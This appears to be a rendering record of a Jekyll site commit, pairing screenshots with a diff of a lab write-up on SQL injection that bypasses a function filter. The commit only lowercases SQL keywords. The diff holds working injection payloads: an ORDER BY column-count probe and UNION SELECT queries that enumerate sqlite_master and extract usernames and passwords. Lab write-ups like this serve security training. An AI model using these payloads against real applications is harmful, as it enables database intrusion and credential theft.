

Before and after one commit to d4rkto0th/d4rkto0th.github.io, a Jekyll site: the page built from labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md, in a window 1280 px wide and 900 px high, scrolled down 4441 px. Shown: the part 152-565 px from the top of the window, without its empty margins (190-1089 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md
+++ b/labs/webapp/GalaxyDash (SQLi - Function Filter Bypass).md
@@ -115,8 +115,8 @@ GET /api/bookings?status=pending' OR 1=1-- HTTP/1.1
 ### Step 2: Determine Column Count
 Used ORDER BY to binary search for column count:
 ```sql
-' ORDER BY 26--   -- Works
-' ORDER BY 27--   -- Error
+' order by 26--   -- Works
+' order by 27--   -- Error
 ```
 **Result:** 26 columns confirmed.
 
@@ -151,13 +151,13 @@ Systematic testing revealed:
 Instead of using subselects or aggregate functions, make sqlite_master the FROM table for the entire UNION query:
 
 ```http
-GET /api/bookings?status=' UNION SELECT 1,2,...,17,name,19,...,26 FROM sqlite_master LIMIT 1-- HTTP/1.1
+GET /api/bookings?status=' union select 1,2,...,17,name,19,...,26 from sqlite_master limit 1-- HTTP/1.1
 ```
 **Result:** First table name returned. Iterated with `LIMIT 1 OFFSET N` to enumerate all tables. Discovered "users" table.
 
 ### Step 6: Extract Credentials and Flag
 ```http
-GET /api/bookings?status=' UNION SELECT 1,2,...,17,username,password,20,...,26 FROM users LIMIT 1 OFFSET 0-- HTTP/1.1
+GET /api/bookings?status=' union select 1,2,...,17,username,password,20,...,26 from users limit 1 offset 0-- HTTP/1.1
 ```
 
 **Response:**
````
